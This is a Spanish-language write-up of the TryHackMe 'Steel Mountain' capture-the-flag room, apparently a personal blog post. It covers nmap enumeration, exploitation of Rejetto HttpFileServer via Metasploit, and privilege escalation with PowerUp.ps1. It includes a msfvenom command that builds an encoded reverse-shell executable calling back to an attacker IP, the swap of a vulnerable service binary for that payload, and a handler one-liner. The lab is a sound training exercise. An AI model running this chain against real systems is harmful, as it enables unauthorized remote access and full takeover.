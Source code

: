 ```yaml
---
toc: true
comments: true
title: TryHackMe - Steel Mountain
layout: post
title: TryHackMe - Steel Mountain
date: 2024-05-09 18:28 -0300
categories: [TryHackMe, Medium, CTF]
tags: [Windows, Powershell, PowerUp.ps1, PrivEsc]    
image: /assets/Posts/SteelMountain/logo.jpeg
---
```


## Pre
- [Clip del equipo haciendo este ctf](https://youtu.be/jU2VXnUzClk?si=UqznCp67bzZHFnq1)
- Steel Mountain probo ser un desafio complejo que dio buenas insights en los ataques a maquinas Windows y algo de conocimiento para PowerShell.

## Phase 1
Para comenzar realizamos los scans de nmap de siempre, el primero de puertos y luego uno de profundizacion en versiones y similar.

```shell
nmap -Pn -n -p- --min-rate 10000 --open -vv -oN nmap/firstScan $IP
PORT      STATE SERVICE       REASON
80/tcp    open  http          syn-ack
135/tcp   open  msrpc         syn-ack
139/tcp   open  netbios-ssn   syn-ack
445/tcp   open  microsoft-ds  syn-ack
3389/tcp  open  ms-wbt-server syn-ack
5985/tcp  open  wsman         syn-ack
8080/tcp  open  http-proxy    syn-ack
47001/tcp open  winrm         syn-ack
49153/tcp open  unknown       syn-ack
49154/tcp open  unknown       syn-ack
49155/tcp open  unknown       syn-ack
49156/tcp open  unknown       syn-ack
49169/tcp open  unknown       syn-ack
49170/tcp open  unknown       syn-ack
```

Para esto hice (o cierto chatbot basado en IA) el siguiente oneliner de extraccion de puertos que ya queda configurado a futuro en nuestro env.

```shell
cat firstScan | grep 'open' | awk '{ print $1 }' | awk '{print ($0+0)}' | sed -z 's/\n/,/g;s/,$/\n/' 
```
Y con eso podemos aplicar el script de forma rapida a los puertos. El siguiente es el resultado emprolijado (sacando los certs e info inecesaria)

```shell
$ nmap -Pn -n -p 80,135,139,445,3389,5985,8080,47001,49153,49154,49155,49156,49169,49170 -T4 -sSCV -A -vv -oN nmap/versions $IP
PORT      STATE SERVICE            REASON          VERSION
80/tcp    open  http               syn-ack ttl 125 Microsoft IIS httpd 8.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack ttl 125 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 125
| rdp-ntlm-info: 
|   Target_Name: STEELMOUNTAIN
|   NetBIOS_Domain_Name: STEELMOUNTAIN
|   NetBIOS_Computer_Name: STEELMOUNTAIN
|   DNS_Domain_Name: steelmountain
|   DNS_Computer_Name: steelmountain
|   Product_Version: 6.3.9600
|_  System_Time: 2024-05-10T17:55:18+00:00
5985/tcp  open  http               syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8080/tcp  open  http               syn-ack ttl 125 HttpFileServer httpd 2.3
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
|_http-title: HFS /
|_http-server-header: HFS 2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST
47001/tcp open  http               syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0

Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| smb2-time: 
|   date: 2024-05-10T17:55:18
|_  start_date: 2024-05-10T17:46:31
| nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:fe:8a:ec:36:63 (unknown)
| Names:
|   STEELMOUNTAIN<00>    Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   STEELMOUNTAIN<20>    Flags: <unique><active>
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:0:2: 
|_    Message signing enabled but not required
```

Empezando el juego nos pide encontrar informacion sobre el empleado del mes. Encuentramos una página de inicio muy básica (¿y única?) con el empleado.

![Desktop View](/assets/Posts/SteelMountain/bill.png){: width="972" height="589" }
_BillHarper_

Con eso tenemos el nombre de Bill Harper en la url de la imagen. Continuando con nuestro analisis de los scripts vemos que hay un file server el cual destaca, navegadndo al mismo tenemos una version.

![Desktop View](/assets/Posts/SteelMountain/1.png){: width="972" height="589" }
_Vulnerable_

Con esto y una ayuda de metasploit la ejecucion es bastante simple.

```shell
msf6 > search Rejetto HTTP File Server

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution
```

Lo configuramos y tenemos acceso!

## Phase 2: PrivEsc

Una vez dentro del sistema utilizamos `ifconfig` y vemos que no tiene acceso a internet externo. Pero aqui es cuando TryHackMe nos indica utilizar [PowerUp.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1)

Para esto desde nuestro meterpreter utilizamos el comando `upload` y le subimos el archivo. Luego lo ejecutamos, destacando la necesidad de cargar powershell antes.

```shell
meterpreter > upload ./PowerUp.ps1
...

meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell


PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
```

Aqui el sistema nos da mucha, mucha informacion. Lo que queremos es un servicio que pueda ser frenado y re-empezado (para sustituirlo) con algun otro tipo de vulnerabilidad presente. Y aqui esta:

```shell
ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe;
                 IdentityReference=STEELMOUNTAIN\bill; Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths
```

Entonces con el nombre del servicio debemos generar un ejecutable para nuestra reverse shell administrativa

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.14.46.99 LPORT=4443 -e x86/shikata_ga_nai -f exe -o Advanced.exe 
```

Nos tendremos que mover para ejecutar esto bien, el archivo ese reside en IObit 

```shell
meterpreter > cd Program\ Files\ (x86)\\
meterpreter > ls
Listing: C:\Program Files (x86)
===============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  0     dir   2019-09-26 12:17:46 -0300  Common Files
040777/rwxrwxrwx  0     dir   2019-09-26 12:17:48 -0300  IObit
040777/rwxrwxrwx  4096  dir   2014-03-21 16:08:30 -0300  Internet Explorer
040777/rwxrwxrwx  0     dir   2013-08-22 12:39:30 -0300  Microsoft.NET
040777/rwxrwxrwx  0     dir   2019-09-29 21:46:20 -0300  Uninstall Information
040777/rwxrwxrwx  0     dir   2013-08-22 12:39:33 -0300  Windows Mail
040777/rwxrwxrwx  0     dir   2013-08-22 12:39:30 -0300  Windows NT
040777/rwxrwxrwx  0     dir   2013-08-22 12:39:30 -0300  WindowsPowerShell
100666/rw-rw-rw-  174   fil   2013-08-22 12:37:57 -0300  desktop.ini

Nos metemos y subimos el exploit.
meterpreter > upload Advanced.exe
```

Con esto tenemos nuestra shell en root. Se puede generar tambien un meterpreter para que sea mas estable que un NC mediante `msfconsole -qx 'use exploit/multi/handler;set lhost tun0;set lport 4443;set payload windows/meterpreter/reverse_tcp;run'`